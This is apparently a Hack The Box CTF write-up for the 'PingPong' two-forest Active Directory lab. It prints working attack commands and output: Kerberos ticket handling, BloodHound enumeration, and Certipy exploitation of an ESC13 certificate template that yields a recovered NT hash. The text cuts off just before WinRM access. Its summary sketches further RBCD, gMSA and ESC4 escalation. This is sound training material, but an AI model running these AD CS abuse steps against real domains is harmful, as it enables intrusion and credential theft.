








## Table of Contents

- [Summary](#Summary)
- [Machine Information](#Machine-Information)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 445/TCP](#Enumeration-of-Port-445TCP)
- [Time and Date Synchronization](#Time-and-Date-Synchronization)
- [Kerberos Configuration](#Kerberos-Configuration)
- [Kerberos Ticket Handling](#Kerberos-Ticket-Handling)
- [Active Directory Enumeration (Part 1)](#Active-Directory-Enumeration-Part-1)
- [Active Directory Certificate Services (AD CS) Abuse (Part 1)](#Active-Directory-Certificate-Services-AD-CS-Abuse-Part-1)
    - [ESC13: Issuance Policy with Privileged Group Linked](#ESC13-Issuance-Policy-with-Privileged-Group-Linked)
- [Pivoting](#Pivoting)
- [Active Directory Enumeration (Part 2)](#Active-Directory-Enumeration-Part-2)
- [Lateral Movement](#Lateral-Movement)
- [Privilege Escalation to Pong_gMSA$](#Privilege-Escalation-to-Pong_gMSA)
    - [Access Control Entry (ACE) Owns + ReadGMSAPassword Abuse and Cross-Forest Group Membership Manipulation](#Access-Control-Entry-ACE-Owns--ReadGMSAPassword-Abuse-and-Cross-Forest-Group-Membership-Manipulation)
- [Enumeration (Pong_gMSA$)](#Enumeration-Pong_gMSA$)
- [Privilege Escalation to C.Carlssen](#Privilege-Escalation-to-CCarlssen)
    - [Just Enough Administration (JEA) Bypass](#Just-Enough-Administration-JEA-Bypass)
- [user.txt](#usertxt)
- [Enumeration (C.Carlssen)](#Enumeration-CCarlssen)
- [Privilege Escalation to SYSTEM (DC2)](#Privilege-Escalation-to-SYSTEM-DC2)
- [Privilege Escalation to svc_sql and C.Adam](#Privilege-Escalation-to-svc_sql-and-CAdam)
    - [Access Control Entry (ACE) GenericWrite Abuse through Resource-Based Constrained Delegation (RBCD)](#Access-Control-Entry-ACE-GenericWrite-Abuse-through-Resource-Based-Constrained-Delegation-RBCD)
    - [Add C.Carlssen to Local Administrators Group](#Add-CCarlssen-to-Local-Administrators-Group)
- [Privilege Escalation to R.Martinelli](#Privilege-Escalation-to-RMartinelli)
- [Enumeration (R.Martinelli)](#Enumeration-RMartinelli)
- [Privilege Escalation to SYSTEM (DC1)](#Privilege-Escalation-to-SYSTEM-DC1)
- [Active Directory Certificate Services (AD CS) Abuse (Part 2)](#Active-Directory-Certificate-Services-AD-CS-Abuse-Part-2)
    - [ESC4: Template Write Permissions Abuse](#ESC4-Template-Write-Permissions-Abuse)
- [root.txt](#roottxt)
- [Post Exploitation](#Post-Exploitation)

## Summary

The box starts as an Assume Breach scenario against a two-forest `Active Directory` (`AD`) environment consisting of `ping.htb` (`DC1`) and `pong.htb` (`DC2`), linked by a cross-forest trust, with initial credentials for the `C.Roberts` account. `NTLM` authentication is disabled across the entire environment, meaning every authentication attempt requires `Kerberos` and clock synchronization is mandatory from the outset.

Reconnaissance confirms a standard `AD` port profile on `DC1` and reveals an `Active Directory Certificate Services` (`AD CS`) installation. `BloodHound` enumeration identifies a custom certificate template `TemporaryWinRM` vulnerable to `ESC13` — an issuance policy linked to the `TempWinRMAccess` group. `ESC13` is exploited to enroll a certificate that grants `c.roberts` membership in `TempWinRMAccess` on ticket presentation, enabling `WinRM` access to `DC1`.

Lateral movement into the `pong.htb` forest is achieved via a cross-forest `TGT` referral and `Ligolo-ng` tunnelling to reach `DC2` on `192.168.2.0/24`. `BloodHound` enumeration of `pong.htb` reveals that `C.Roberts`'s group `PING\IT` owns the `gMSA Managers` group in the child domain. This is abused to grant `GenericAll` to `C.Roberts`, convert the group to a universal scope for cross-forest visibility, and then read the `Pong_gMSA$` Managed Service Account password via `ldeep`. With the `gMSA` credentials, a restricted `JEA` endpoint on `DC1` is accessed as `Pong_gMSA$` using `minrm`, and `PSReadLine` history from the `gMSA`'s profile reveals the cleartext password for `C.Carlssen` in `pong.htb`.

As `C.Carlssen`, `BloodHound` shows `GenericWrite` over `svc_sql` in `pong.htb`. This is abused via `Resource-Based Constrained Delegation` (`RBCD`) — writing `Pong_gMSA$` into the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of `svc_sql` and then impersonating an administrative user via `S4U2Proxy` to obtain an `MSSQL` service ticket. `xp_cmdshell` is enabled and `GodPotato` is used to escalate from `svc_sql` (`NETWORK SERVICE`) to `SYSTEM` on `DC2`, from which `C.Carlssen` is added to the local `Administrators` group, yielding `user.txt` and full `pong.htb` domain compromise.

The `pong.htb` `NTDS` dump yields the `AES256` key for `R.Martinelli`, a `pong.htb` user with write permissions over the `SmartcardAuthentication` certificate template and `S-1-5-11` (`Authenticated Users`) enrollment rights on `ping.htb`. This is the `ESC4` attack path: `R.Martinelli`'s cross-forest write access is used to modify `msPKI-Certificate-Name-Flag` on `SmartcardAuthentication` and grant `GenericAll` to `Authenticated Users`, transforming the template into one that allows `C.Roberts` to specify an arbitrary `UPN` — in this case `Administrator@ping.htb`. `Certipy` enrolls the certificate and authenticates as `Administrator` via `PKINIT`, completing the `ping.htb` domain compromise and retrieving `root.txt`.

## Machine Information

As is common in real life pentests, you will start the PingPong box with credentials for the following account c.roberts / AssumedBreach123

## Reconnaissance

### Port Scanning

The initial `Nmap` scan against `DC1` revealed a standard `Active Directory` port profile on `ping.htb`. The eight-hour clock skew in the results flagged that `Kerberos` time synchronization would be required before any authentication could succeed — `NTLM` being disabled means there is no password fallback available. Port `2179/TCP` (`vmrdp`) indicated a `Hyper-V` host, which was consistent with `DC2` later being found on a `192.168.2.0/24` internal network.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.34.57
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-25 21:06 +0200
Nmap scan report for 10.129.34.57
Host is up (0.24s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-26 03:08:02Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: ping.htb, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc1.ping.htb, DNS:ping.htb, DNS:PING
| Not valid before: 2026-04-20T18:54:50
|_Not valid after:  2106-04-20T18:54:50
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: ping.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc1.ping.htb, DNS:ping.htb, DNS:PING
| Not valid before: 2026-04-20T18:54:50
|_Not valid after:  2106-04-20T18:54:50
|_ssl-date: TLS randomness does not represent time
2179/tcp open  vmrdp?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: ping.htb, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc1.ping.htb, DNS:ping.htb, DNS:PING
| Not valid before: 2026-04-20T18:54:50
|_Not valid after:  2106-04-20T18:54:50
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: ping.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc1.ping.htb, DNS:ping.htb, DNS:PING
| Not valid before: 2026-04-20T18:54:50
|_Not valid after:  2106-04-20T18:54:50
|_ssl-date: TLS randomness does not represent time
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-04-26T03:08:49
|_  start_date: N/A
|_clock-skew: 7h59m58s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 159.00 seconds
```

Both `DC1.ping.htb` and `ping.htb` were added to `/etc/hosts`.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.34.57    ping.htb
10.129.34.57    DC1.ping.htb
```

### Enumeration of Port 445/TCP

An initial `SMB` authentication attempt with the provided credentials returned `STATUS_NOT_SUPPORTED`, confirming `NTLM` was disabled domain-wide. All subsequent authentication had to go through `Kerberos`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ netexec smb 10.129.34.57 -u 'c.roberts' -p 'AssumedBreach123' --shares
SMB         10.129.34.57    445    dc1              [*]  x64 (name:dc1) (domain:ping.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         10.129.34.57    445    dc1              [-] ping.htb\c.roberts:AssumedBreach123 STATUS_NOT_SUPPORTED
```

## Time and Date Synchronization

Given the eight-hour clock skew, `Kerberos` would reject any ticket requests without first synchronizing the local clock with the Domain Controller. The `systemd-timesyncd` service was stopped and the clock was set against `DC1`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo systemctl stop systemd-timesyncd
[sudo] password for kali:
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo net time set -S 10.129.34.57
```

## Kerberos Configuration

A `krb5.conf` was generated via `NetExec` to configure the `Kerberos` realm for `ping.htb`. Although `NTLM` authentication still failed, the realm configuration was saved for use with `impacket` and `Certipy`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ netexec smb 10.129.34.57 -u 'c.roberts' -p 'AssumedBreach123' --generate-krb5-file ./krb5.conf 
SMB         10.129.34.57    445    dc1              [*]  x64 (name:dc1) (domain:ping.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         10.129.34.57    445    dc1              [+] krb5 conf saved to: ./krb5.conf
SMB         10.129.34.57    445    dc1              [+] Run the following command to use the conf file: export KRB5_CONFIG=./krb5.conf
SMB         10.129.34.57    445    dc1              [-] ping.htb\c.roberts:AssumedBreach123 STATUS_NOT_SUPPORTED
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ export KRB5_CONFIG=./krb5.conf
```

## Kerberos Ticket Handling

A `TGT` was obtained for `C.Roberts` using the provided password and loaded into the active credential cache.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ impacket-getTGT ping.htb/c.roberts:'AssumedBreach123'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in c.roberts.ccache
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ export KRB5CCNAME=c.roberts.ccache
```

## Active Directory Enumeration (Part 1)

With a valid `TGT` loaded, `SMB` share enumeration succeeded via `Kerberos`. Only default shares were accessible — no non-standard shares were present on `DC1`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ netexec smb DC1.ping.htb -k --use-kcache --shares         
SMB         DC1.ping.htb    445    DC1              [*]  x64 (name:DC1) (domain:ping.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         DC1.ping.htb    445    DC1              [+] PING.HTB\c.roberts from ccache 
SMB         DC1.ping.htb    445    DC1              [*] Enumerated shares
SMB         DC1.ping.htb    445    DC1              Share           Permissions     Remark
SMB         DC1.ping.htb    445    DC1              -----           -----------     ------
SMB         DC1.ping.htb    445    DC1              ADMIN$                          Remote Admin
SMB         DC1.ping.htb    445    DC1              C$                              Default share
SMB         DC1.ping.htb    445    DC1              IPC$            READ            Remote IPC
SMB         DC1.ping.htb    445    DC1              NETLOGON        READ            Logon server share 
SMB         DC1.ping.htb    445    DC1              SYSVOL          READ            Logon server share
```

`BloodHound` data was collected using `bloodhound-python` with `Kerberos` authentication. The collection identified one domain trust to `pong.htb` and returned 27 users, 57 groups and 3 GPOs.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ bloodhound-python -u c.roberts@ping.htb -k -no-pass -d ping.htb -dc DC1.ping.htb -ns 10.129.34.57 -c all --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: ping.htb
INFO: Using TGT from cache
INFO: Found TGT with correct principal in ccache file.
INFO: Connecting to LDAP server: DC1.ping.htb
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to GC LDAP server: dc1.ping.htb
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
INFO: Connecting to LDAP server: DC1.ping.htb
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
INFO: Found 27 users
INFO: Found 57 groups
INFO: Found 3 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc1.ping.htb
INFO: Done in 01M 53S
INFO: Compressing output into 20260426052346_bloodhound.zip
```

Reviewing `BloodHound` showed `C.Roberts` was a member of the `IT` group and nothing else of immediate privilege. The `CA Managers` group membership was also noted, which would become relevant later.



`NetExec` with the `adcs` module confirmed an `Active Directory Certificate Services` (`AD CS`) installation under `ping-DC1-CA`, and `ping-DC1-CA` was added to `/etc/hosts` for certificate enrollment operations.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ netexec ldap DC1.ping.htb -k --use-kcache -M adcs
LDAP        DC1.ping.htb    389    DC1              [*] None (name:DC1) (domain:PING.HTB) (signing:None) (channel binding:Never) (NTLM:False)
LDAP        DC1.ping.htb    389    DC1              [+] PING.HTB\c.roberts from ccache 
ADCS        DC1.ping.htb    389    DC1              [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        DC1.ping.htb    389    DC1              Found PKI Enrollment Server: dc1.ping.htb
ADCS        DC1.ping.htb    389    DC1              Found CN: ping-DC1-CA
```

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts 
127.0.0.1       localhost
127.0.1.1       kali
10.129.34.57    ping.htb
10.129.34.57    DC1.ping.htb
10.129.34.57    ping-DC1-CA
```



## Active Directory Certificate Services (AD CS) Abuse (Part 1)

### ESC13: Issuance Policy with Privileged Group Linked

`ESC13` is an `Active Directory Certificate Services` (`AD CS`) misconfiguration where a certificate template carries an `Issuance Policy` (also called an `OID`) that is linked to a privileged `Active Directory` group. When a user enrolls in such a template and presents the resulting certificate for `Kerberos` authentication via `PKINIT`, the `Key Distribution Center` (`KDC`) detects the `OID` in the certificate and dynamically adds the user's `Kerberos` ticket to the linked group. This means that enrollment alone does not grant the group membership — the membership is asserted only when the certificate is used to obtain a `TGT`. The attack requires that the enrolling account has enrollment rights on the template, which in this case was granted to all `Domain Users`. The linked group was `TempWinRMAccess`, which as the name implies gave `WinRM` access to `DC1`.

- [https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/10_post_exploitation.md#active-directory-certificate-services-ad-cs](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/10_post_exploitation.md#active-directory-certificate-services-ad-cs)
- [https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/10_post_exploitation.md#esc13-issuance-policy-with-privileged-group-linked](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/10_post_exploitation.md#esc13-issuance-policy-with-privileged-group-linked)

`Certipy` with the `-vulnerable` flag identified the misconfigured `TemporaryWinRM` template and flagged the `ESC13` vulnerability.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ certipy-ad find -username 'c.roberts@ping.htb' -k -no-pass -dc-ip 10.129.34.57 -dc-host DC1.ping.htb -vulnerable -stdout
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[!] Target name (-target) not specified and Kerberos authentication is used. This might fail
[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Finding issuance policies
[*] Found 20 issuance policies
[*] Found 1 OID linked to a template
[*] Retrieving CA configuration for 'ping-DC1-CA' via RRP
[-] Failed to connect to remote registry: [Errno Connection error (192.168.2.1:445)] timed out
[-] Use -debug to print a stacktrace
[!] Failed to get CA configuration for 'ping-DC1-CA' via RRP: 'NoneType' object has no attribute 'request'
[!] Use -debug to print a stacktrace
[!] Could not retrieve configuration for 'ping-DC1-CA'
[*] Checking web enrollment for CA 'ping-DC1-CA' @ 'dc1.ping.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : ping-DC1-CA
    DNS Name                            : dc1.ping.htb
    Certificate Subject                 : CN=ping-DC1-CA, DC=ping, DC=htb
    Certificate Serial Number           : 6F8E726EEFA64B894CE82D498BC27632
    Certificate Validity Start          : 2026-04-20 18:54:41+00:00
    Certificate Validity End            : 2126-04-20 19:04:41+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Unknown
    Request Disposition                 : Unknown
    Enforce Encryption for Requests     : Unknown
    Active Policy                       : Unknown
    Disabled Extensions                 : Unknown
Certificate Templates
  0
    Template Name                       : TemporaryWinRM
    Display Name                        : Temporary WinRM
    Certificate Authorities             : ping-DC1-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectRequireDirectoryPath
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
                                          AutoEnrollment
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2025-12-23T17:19:28+00:00
    Template Last Modified              : 2025-12-27T21:12:15+00:00
    Issuance Policies                   : 1.3.6.1.4.1.311.21.8.5808481.4086498.12600997.2067446.8927163.214.489503.1996623
    Linked Groups                       : CN=TempWinRMAccess,CN=Users,DC=ping,DC=htb
    Permissions
      Enrollment Permissions
        Enrollment Rights               : PING.HTB\Domain Admins
                                          PING.HTB\Domain Users
                                          PING.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : PING.HTB\Administrator
        Full Control Principals         : PING.HTB\Domain Admins
                                          PING.HTB\Enterprise Admins
        Write Owner Principals          : PING.HTB\Domain Admins
                                          PING.HTB\Enterprise Admins
        Write Dacl Principals           : PING.HTB\Domain Admins
                                          PING.HTB\Enterprise Admins
        Write Property Enroll           : PING.HTB\Domain Admins
                                          PING.HTB\Domain Users
                                          PING.HTB\Enterprise Admins
    [+] User Enrollable Principals      : PING.HTB\Domain Users
    [!] Vulnerabilities
      ESC13                             : Template allows client authentication and issuance policy is linked to group 'CN=TempWinRMAccess,CN=Users,DC=ping,DC=htb'.
```

The `ESC13` exploit requires first obtaining a service ticket for the target host — in this case `host/DC1.ping.htb` — to satisfy the `Kerberos` channel binding requirement that some `AD CS` `RPC` enrollment implementations enforce. `impacket-getST` was used to request this ticket, then `Certipy` enrolled the `TemporaryWinRM` certificate as `C.Roberts`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ impacket-getST -spn 'host/DC1.ping.htb' -k -no-pass ping.htb/c.roberts -dc-ip 10.129.34.57
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting ST for user
[*] Saving ticket in c.roberts@host_DC1.ping.htb@PING.HTB.ccache
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ export KRB5CCNAME=c.roberts@host_DC1.ping.htb@PING.HTB.ccache
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ certipy-ad req -u 'c.roberts@ping.htb' -k -no-pass -dc-ip 10.129.34.57 -dc-host DC1.ping.htb -target DC1.ping.htb -ca 'ping-DC1-CA' -template 'TemporaryWinRM'
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 17
[*] Successfully requested certificate
[*] Got certificate with UPN 'C.Roberts@ping.htb'
[*] Certificate object SID is 'S-1-5-21-750635624-2058721901-1932338391-2617'
[*] Saving certificate and private key to 'c.roberts.pfx'
[*] Wrote certificate and private key to 'c.roberts.pfx'
```

The certificate was authenticated via `PKINIT` with `Certipy`, recovering the `NTLM` hash for `C.Roberts` and a `TGT` that carries the `TempWinRMAccess` group assertion from the `OID`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ certipy-ad auth -pfx 'c.roberts.pfx' -dc-ip '10.129.34.57'
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'C.Roberts@ping.htb'
[*]     Security Extension SID: 'S-1-5-21-750635624-2058721901-1932338391-2617'
[*] Using principal: 'c.roberts@ping.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'c.roberts.ccache'
File 'c.roberts.ccache' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote credential cache to 'c.roberts.ccache'
[*] Trying to retrieve NT hash for 'c.roberts'
[*] Got hash for 'c.roberts@ping.htb': aad3b435b51404eeaad3b435b51404ee:2475be69d40e815588a85fd89c7a439d
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/PingPong/files]
└─$ export KRB5CCNAME=c.roberts.ccache
```

With the `ESC13` `TGT` loaded, `Evil-WinRM` authenticated to `DC1` using `Kerberos` and the `TempWinRMAccess` group assertion granted `WinRM` access.

```shell
